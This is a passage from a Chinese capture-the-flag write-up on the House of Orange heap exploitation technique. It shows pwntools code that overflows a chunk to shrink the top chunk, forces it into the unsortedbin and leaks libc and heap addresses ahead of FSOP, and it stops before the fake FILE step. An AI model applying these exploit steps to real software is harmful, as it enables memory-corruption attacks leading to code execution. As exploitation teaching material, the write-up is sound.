 	def edit(size, content, price='2', color='1'):
	    ru("Your choice : ")
	    sl('3')
	    ru("Length of name :")
	    sl(str(size))
	    ru("Name:")
	    sh.send(content)
	    ru("Price of Orange:")
	    sl(str(price))
	    ru("Color of Orange:")    #1-7
	    sl(str(color))
### 修改top chunk
随便申请一个chunk，然后利用edit函数，溢出修改topchunk
	
	add(0x30,'aaaa\n')
	dbg()
	payload = 'a' * 0x30 +p64(0) + p64(0x21) + p32(2) + p32(2) + p64(0) * 2 + p64(0xf81)
	edit(len(payload), payload)
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/a23256312ac74a1c922b94fb13e84135.png)
top chunk大小为0x0000000000020f81
修改后的top chunk 大小为0x0000000000000f81
![在这里插入图片描述](https://img-blog.csdnimg.cn/259e73d11d5f45ad823f0a9bf7ff1f12.png)
### 申请大于top chunk的chunk，进入unsortedbin
	add(0x1000, 'a\n')
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/d36f2307ea63433d8af823bfb7a100a0.png)
### 泄露libc和heap
调试可得此时我们刚刚申请的0x400chunk里存放着0x00007fe0c1216188距离libc基地址0x3c5188（0x00007fe0c1216188-0x7fe0c0e51000），该chunk里还存放着heap地址，因为printf遇到'\x00'会停止打印，所以我们将0x00007fe0c1216188改为字符串b，再将其输出

	add(0x400, 'a' * 8)
	show()
	ru('a'*8)
	libc.address = u64(ru('\x7f').ljust(8, '\x00')) - 0x3c5188
	lg('libc.address',libc.address)
	io_list_all = libc.symbols['_IO_list_all']
	system = libc.symbols['system']
	dbg()

![在这里插入图片描述](https://img-blog.csdnimg.cn/b0e56ad2215f45969686d4431486c9cd.png)

我们泄露出的heap为0x5617117b30e0，距离heap基地址0x5617117b30e0-0x5617117b3000=0xe0，由此可获得heap_base地址

	payload = 'b' * 0x10
	edit(0x10, payload)
	show()
	ru('b'*0x10)
	heap = u64(sh.recvuntil('\n').strip().ljust(8, '\x00'))
	heap_base = heap - 0xE0
	lg('heap_base',heap_base)
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/2f717d520ea740d1acf13b1f48f78f98.png)
### 构造fake_file
接下来我们修改当前unsortedbin中chunk的大小和内容,这里FSOP还不太明白，先借用一下大佬写的解释
